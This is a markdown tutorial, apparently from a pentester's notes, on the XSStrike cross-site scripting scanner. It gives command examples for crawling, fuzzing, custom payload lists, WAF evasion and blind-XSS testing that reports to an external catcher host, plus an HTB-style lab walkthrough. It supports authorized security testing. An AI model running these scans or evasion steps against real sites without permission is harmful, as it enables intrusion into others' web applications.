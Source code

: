 ```yaml
---
icon: js
---
```


# XSStrike

## The XSStrike Masterclass: Professional XSS Assessment

XSStrike is an advanced, context-aware XSS vulnerability scanner and exploitation suite. It is designed for both rapid reconnaissance and deep, context-driven payload generation, making it a powerful tool for professional web application penetration testers.

***

### I. Environment Setup: Dynamic Variables

Export variables for flexible, repeatable workflows and to keep your scans organized:

```bash
export URL="<http://target.com/page.php?search=FUZZ>"
export COOKIE="SESSION=abcd1234; other=xyz"
export USER_AGENT="Mozilla/5.0 (XSStrike)"
export PROXY="127.0.0.1:8080"
export THREADS=10
export OUTPUT_DIR="xsstrike-results"
export PAYLOAD_FILE="/path/to/custom_payloads.txt"
```

***

### II. Core Capabilities & Workflow

* **Context-Aware Payload Generation:** XSStrike analyzes the injection context and crafts payloads that are highly likely to succeed, reducing noise and false positives.
* **Reflected & DOM XSS Detection:** Scans for both reflected and DOM-based XSS vulnerabilities.
* **Multi-threaded Crawler:** Discovers hidden endpoints and parameters for comprehensive coverage.
* **Fuzzing Engine:** Identifies injection points and context for optimal payload delivery.
* **WAF Detection & Evasion:** Detects and attempts to bypass Web Application Firewalls.
* **Custom Payloads & Encoding:** Supports custom payload lists and automatic encoding.
* **Blind XSS Support:** Can be configured to test for blind XSS vectors.
* **Outdated JS Library Detection:** Identifies vulnerable JavaScript libraries in use.

***

### III. Professional Usage Examples

#### 1. Basic Reflected & DOM XSS Scan

```bash
python3 [xsstrike.py](<http://xsstrike.py>) --url "$URL"
```

#### 2. Scan with Custom Headers, Cookies, and User-Agent

```bash
python3 [xsstrike.py](<http://xsstrike.py>) --url "$URL" --cookie "$COOKIE" --user-agent "$USER_AGENT"
```

#### 3. Use Proxy (e.g., Burp Suite)

```bash
python3 [xsstrike.py](<http://xsstrike.py>) --url "$URL" --proxy "$PROXY"
```

#### 4. Multi-threaded Crawling & Parameter Discovery

```bash
python3 [xsstrike.py](<http://xsstrike.py>) --url "$URL" --crawl --threads "$THREADS"
```

#### 5. Fuzzing for Injection Points

```bash
python3 [xsstrike.py](<http://xsstrike.py>) --url "$URL" --fuzz
```

#### 6. Custom Payloads (Bruteforce from File)

```bash
python3 [xsstrike.py](<http://xsstrike.py>) --url "$URL" --payload "$PAYLOAD_FILE"
```

#### 7. Blind XSS Testing (with external payload receiver)

```bash
python3 [xsstrike.py](<http://xsstrike.py>) --url "$URL" --blind "<https://your-xss-catcher.com>"
```

#### 8. Outdated JavaScript Library Detection

```bash
python3 [xsstrike.py](<http://xsstrike.py>) --url "$URL" --js
```

#### 9. Save Output to File

```bash
python3 [xsstrike.py](<http://xsstrike.py>) --url "$URL" --output "$OUTPUT_DIR/scan.txt"
```

***

### IV. Advanced Techniques & Scenarios

* **Parameter Discovery:** Use XSStrike's crawler to find hidden or unlinked parameters, then scan each for XSS.
* **Contextual Payloads:** Leverage XSStrike's context analysis to generate payloads that match the injection point (e.g., inside tags, attributes, scripts).
* **WAF Evasion:** Enable WAF detection and use encoding or custom payloads to bypass filtering.
* **DOM XSS:** XSStrike automatically analyzes JavaScript and DOM nodes for client-side injection vectors.
* **Blind XSS:** Integrate with an out-of-band XSS catcher to detect non-reflected payload execution.
* **Batch Scanning:** Use shell scripting to iterate over multiple URLs or parameter sets for large-scale assessments.

***

### V. Real-World Workflow Example

1. Export Variables:

```bash
export URL="<http://app.htb/search.php?q=FUZZ>"
export COOKIE="SESSION=xyz"
export OUTPUT_DIR="xsstrike_htb"
```

2. Crawl and Discover Parameters:

```bash
python3 [xsstrike.py](<http://xsstrike.py>) --url "$URL" --crawl --threads 20 --output "$OUTPUT_DIR/crawl.txt"
```

3. Scan for Reflected and DOM XSS:

```bash
python3 [xsstrike.py](<http://xsstrike.py>) --url "$URL" --cookie "$COOKIE" --output "$OUTPUT_DIR/scan.txt"
```

4. Test with Custom Payloads and WAF Evasion:

```bash
python3 [xsstrike.py](<http://xsstrike.py>) --url "$URL" --payload "/path/to/payloads.txt" --waf
```

5. Blind XSS Testing:

```bash
python3 [xsstrike.py](<http://xsstrike.py>) --url "$URL" --blind "<https://xss.htb-catcher.com>"
```

6. Review Output and Validate in Browser:

* Use the payloads and reflection points found by XSStrike to manually verify in a browser or with Burp Suite.

***

### VI. Pro Tips & Best Practices

* **Always crawl first** to maximize parameter and endpoint coverage.
* **Leverage context analysis** for more reliable payloads and fewer false positives.
* **Use custom payloads** for bypassing advanced filters or targeting specific contexts.
* **Integrate with Burp Suite** for manual validation and deeper analysis.
* **Document all findings** and save output for reporting and future reference.
* **Test only with authorization**—never scan targets without explicit permission.
* **Combine with other tools** (e.g., Dalfox, Burp, manual testing) for comprehensive XSS coverage.

***

This professional XSStrike guide equips you for advanced, context-driven XSS testing, automation, and reporting in real-world web application security assessments.[cyberphinix+2](https://cyberphinix.de/blog/learn-how-to-use-xsstrike-step-by-step-tutorial/)

1. [https://cyberphinix.de/blog/learn-how-to-use-xsstrike-step-by-step-tutorial/](https://cyberphinix.de/blog/learn-how-to-use-xsstrike-step-by-step-tutorial/)
2. [https://www.hackingloops.com/xsstrike/](https://www.hackingloops.com/xsstrike/)
3. [https://infosecwriteups.com/devsecops-phase-4b-manual-penetration-testing-9c9e0493531d](https://infosecwriteups.com/devsecops-phase-4b-manual-penetration-testing-9c9e0493531d)
4. [https://cybersamir.com/exploitation-injection-attacks-day-5/](https://cybersamir.com/exploitation-injection-attacks-day-5/)
5. [https://www.youtube.com/watch?v=Kq5iC302Igc](https://www.youtube.com/watch?v=Kq5iC302Igc)
6. [https://hackmd.io/@0rgis/BkpY5lIJp](https://hackmd.io/@0rgis/BkpY5lIJp)
7. [https://github.com/s0md3v/XSStrike](https://github.com/s0md3v/XSStrike)
8. [https://www.blazeinfosec.com/post/web-application-penetration-testing/](https://www.blazeinfosec.com/post/web-application-penetration-testing/)
